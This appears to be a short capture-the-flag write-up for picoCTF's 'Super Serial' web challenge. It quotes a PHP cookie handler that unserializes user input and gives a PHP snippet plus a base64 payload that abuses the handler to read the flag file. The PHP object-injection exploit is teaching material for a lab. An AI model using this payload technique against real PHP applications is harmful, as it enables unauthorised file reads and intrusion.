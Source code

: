 # Super Serial 

## Description
Try to recover the flag stored on this website [link](http://mercury.picoctf.net:42449/)
> 130 points
## Hints
The flag is at ../flag

## Solution

By looking at the `robots.txt` file we get the hint like that 
```
User-agent: *
Disallow: /admin.phps
```

appending `s` to all php file that we see to get the source code.

looking at the code in `cookie.php` file 
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

```php
<?php
class access_log{
	public $log_file='../flag';
}

print(urlencode(base64_encode(serialize(new access_log()))));

?>
```

```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
